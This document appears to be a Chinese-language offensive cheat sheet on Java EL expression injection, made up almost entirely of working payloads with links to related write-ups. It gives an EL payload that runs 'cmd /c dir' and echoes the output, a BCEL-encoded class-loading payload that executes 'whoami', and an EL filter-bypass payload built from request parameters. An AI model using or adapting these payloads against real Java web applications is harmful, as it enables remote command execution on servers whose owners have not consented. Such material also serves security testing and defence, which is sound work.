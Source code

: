 # EL

https://xz.aliyun.com/t/7692

## 回显

https://forum.butian.net/share/886

```jsp
${
pageContext.setAttribute("inputStream", Runtime.getRuntime().exec("cmd /c dir").getInputStream());
Thread.sleep(1000);
pageContext.setAttribute("inputStreamAvailable", pageContext.getAttribute("inputStream").available());
pageContext.setAttribute("byteBufferClass", Class.forName("java.nio.ByteBuffer"));
pageContext.setAttribute("allocateMethod", pageContext.getAttribute("byteBufferClass").getMethod("allocate", Integer.TYPE));
pageContext.setAttribute("heapByteBuffer", pageContext.getAttribute("allocateMethod").invoke(null, pageContext.getAttribute("inputStreamAvailable")));
pageContext.getAttribute("inputStream").read(pageContext.getAttribute("heapByteBuffer").array(), 0, pageContext.getAttribute("inputStreamAvailable"));
pageContext.setAttribute("byteArrType", pageContext.getAttribute("heapByteBuffer").array().getClass());
pageContext.setAttribute("stringClass", Class.forName("java.lang.String"));
pageContext.setAttribute("stringConstructor", pageContext.getAttribute("stringClass").getConstructor(pageContext.getAttribute("byteArrType")));
pageContext.setAttribute("stringRes", pageContext.getAttribute("stringConstructor").newInstance(pageContext.getAttribute("heapByteBuffer").array()));
pageContext.getAttribute("stringRes")
}
```

```java
InputStream whoami = Runtime.getRuntime().exec("whoami").getInputStream();
Thread.sleep(100);
int whoami1 = whoami.available();
byte[] array = ByteBuffer.allocate(100).array();
whoami.read(array, 0, whoami1);
System.out.println(new String(array));
```
## 加载字节码

+ [Java el 2.1 表达式注入payload(复现上古版本nexus rce)](https://mp.weixin.qq.com/s?__biz=MzIzOTE1ODczMg==&mid=2247485253&idx=1&sn=b1490922c8b4dfcfde6cfdf425ea8597&chksm=e92f13e6de589af00713b3584841d20c209bf361fe1a1c2fa53e7f37432d7728da008bafde35&scene=178&cur_album_id=1359948349721460737#rd)
```
${''.class.forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$8b$I$I$7c$m$n_$A$Deval$$class$A$8dT$5bO$TQ$Q$fe$O$ddv$cb$b2$U$u$d7$827$f0$c2B$vU$f1$da$o$m$V$US$c1$80$c14$3em$b7$87$ba$a4$ddm$b6$5b$c2$3f$f2Uc$d2$gI$7c$f4$c1$9f$e2$8fP$e7l$97$5eB$8d$b6$e9$cc93$df$99$f9f$e6$9c$fe$f8$f5$f5$h$80$3bx$a9$60$Y$8b2$e2$K$fa$84$5e$92$91P$b0$8c$a4$Q$b7$VB$dcU$Q$c4$8a$C$J$f7$84$b8$_$80$P$c2x$u$f4$p$Z$8fe$a4$YB$ab$a6e$bak$M$Bm$e1$90A$ca$d8$F$ce0$945$z$be$5b$x$e7$b9$f3F$cf$97$c8$S$cd$da$86$5e$3a$d4$jS$ec$7d$a3$e4$be7$ab$U$p$cbO$f4R$9a$f6$fc$94$h$M$b7$b4$ec$b1$7e$a2$tK$baUL$k$b8$8ei$V$d3$L$XM$94$d3$u$XD$e8$k$ae$c1$aa$b7$da$ac$99$a5$Cw$Yb$X$40$be$8b$b0$91$7c$ed$e8$88$3b$bc$b0$cfu$P$3c$d5$E$9bvr$b3$cb$p$u$96$a82$ca$ecp$o$ael$9d$g$bc$e2$9a$b6U$95$n$9ce$dd$b4$Y$s$b4w$3d$K$Q$dd$d1$9d$o$j$h$ed$e1$a6$60$Hv$cd1$f8$b6$v$3a$d3$_$3a$b2$yP$wF$Qe$98$fc$L$7d$ca$d6$9b$x$95$7c$ee$d8$b1$w5$97Nq$bd$dc$f4$c9XU$f1$Ek$w$a6$b0$$cC$c5Sl$8aD$Z$n$9e$a9$d8$c2$b6$8a$e7x$c1$c0$U$V$3b$d8$W$b3$nF$M$c3m$k$7b$f9cn$b8TN$x$cf$5e$ab$l$M$pm$e0$7e$cdr$cd2U$a5$U$b9$db$da$8ck$9d3$f5$cd$d4$87$f9$7fL$ff$b5c$h$bcZMw$a5$f0$8d4KJ$d1Q$_5$ee$3cMw$p$e8$f8$94$d6$d3$n$G5$dav$f9$93$X$d60$f9$LYo$fecZ$cf$L$Z$d2$x$Vn$d1$9dL$fc$d7$Vn_$c1$b0k7M$98$c5$Q$3dL$f1$J$80$89$d9$93$i$a5$dd$KiF$3a$b8$d8$A$fbD$8b$3e$8c$91$U$8f$91$8c$f4$3ee$8c$d3Jm$820$81I$d2T$qb$84$Q$B$3e$pD_$ms$86$be$5c$D$81Wg$90rg$I$e6$be$m$U$afC$ae$p$dc$40$7f$D$can$a2$8e$81$5cJ$fa$8e$e8RL$aaC$8d$O$92x$fb$e1$f7$cf$a5$3a$o$a9$60$y$f8$b1$95$7e$da$L$a9$m$8c$Bb$3e$888$oH$R$ff$Nb$$$e8$ac5S$fat$c4j$g3D$x$8c4$$$e12E$99$c5$i$ae$e0$wU$ab$91$e7$g$fd$q$3a$j$m$fb$M$951Gg$q$c2_G$3fn$e0$a6$df$8b$b8W$g$3a$fb$Q$f2$Mc$j$3d$a0$ff$R$cc$7bZ$f3P$L$7f$A$f1$e1$81$9c$fb$E$A$A').newInstance().exec('whoami')}
```
**需要注意jdk版本问题可能没有bcel类**
理论上spel表达式可以用的payLoad 这里也可以利用
## bypass

https://forum.butian.net/share/1880
```java
${""[param.a]()[param.b](param.c)[param.d]()[param.e](param.f)[param.g](param.h)}
```

https://blog.orange.tw/2018/08/how-i-chained-4-bugs-features-into-rce-on-amazon.html
